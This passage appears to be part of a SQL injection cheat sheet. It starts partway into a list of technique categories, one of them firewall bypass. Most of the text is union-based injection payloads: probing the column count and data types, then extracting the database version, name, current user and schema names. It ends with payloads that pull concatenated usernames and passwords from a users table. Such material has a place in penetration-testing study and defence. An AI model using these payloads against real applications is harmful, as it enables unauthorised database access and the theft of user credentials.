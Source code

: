 1. **Union-Based Injection** - Using UNION to extract data
2. **Boolean-Based Blind Injection** - True/false condition testing
3. **Time-Based Blind Injection** - Time delay-based testing
4. **Error-Based Injection** - Exploiting error messages
5. **WAF Bypass** - Circumventing Web Application Firewalls

## Union-Based Injection {#union-based}

Union-based SQL injection uses the UNION operator to combine results from multiple SELECT statements.

### Basic Union Injection

#### 1. Determining Column Count
```sql
-- Test with different column counts
' UNION SELECT 1-- 
' UNION SELECT 1,2-- 
' UNION SELECT 1,2,3-- 
' UNION SELECT 1,2,3,4-- 
```

#### 2. Identifying Data Types
```sql
-- Test data types for each column
' UNION SELECT 'string',2,3,4-- 
' UNION SELECT 1,'string',3,4-- 
' UNION SELECT 1,2,'string',4-- 
' UNION SELECT 1,2,3,'string'-- 
```

#### 3. Extracting Database Information
```sql
-- Database version
' UNION SELECT 1,version(),3,4-- 

-- Database name
' UNION SELECT 1,database(),3,4-- 

-- Current user
' UNION SELECT 1,user(),3,4-- 

-- All databases
' UNION SELECT 1,group_concat(schema_name),3,4 FROM information_schema.schemata-- 
```

### Advanced Union Techniques

#### 1. Column Concatenation
```sql
-- Concatenate multiple columns
' UNION SELECT 1,concat(username,':',password),3,4 FROM users-- 

-- Group concatenation
' UNION SELECT 1,group_concat(username),3,4 FROM users-- 
```

